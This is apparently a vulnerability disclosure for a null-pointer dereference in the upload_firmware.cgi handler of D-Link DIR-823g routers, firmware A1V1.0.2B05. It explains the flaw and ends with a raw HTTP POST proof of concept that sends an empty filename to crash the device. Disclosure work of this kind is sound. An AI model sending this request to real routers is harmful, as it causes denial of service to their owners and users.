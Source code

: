 ## DIR-823g Null-pointer dereferences

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823g

### Affected version

D-Link DIR-823g A1V1.0.2B05 was found to contain a Null-pointer dereferences in `main` function of `upload_firmware.cgi`, which allows remote attackers to cause a Denial of Service (DoS) via a crafted input.

![image-20240421163220274](./img/1.png)

### Vulnerability details

Vulnerability occurs in /cgi-bin/upload_firmware.cgi. Attackers can control `v9` by setting the `UPLOAD_FILENAME`.

![image-20240421163827190](./img/2.png)

Function `sub_400EB4` checks the uploaded file `v9`. If opening `v9` file fails, `sub_400EB4` directly returns 0.

![image-20240421163827190](./img/4.png)

If the return value `v8` is 0, a null pointer will be passed to `strncmp` in line 38 of `main` function, causing the program to crash.

![image-20240421163827190](./img/3.png)

Based on the cause of the vulnerability, attackers can upload a non-existent file name or empty value, causing the router to crash. 

This allows an authorized attacker to perform a DoS attack.

### PoC

```
POST /cgi-bin/upload_firmware.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28278418346116865854153533320
Content-Length: 189
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/FirmwareUpdate.html
Upgrade-Insecure-Requests: 1
-----------------------------28278418346116865854153533320
Content-Disposition: form-data; name="uploadConfigFile"; filename=" "
Content-Type: application/octet-stream
```

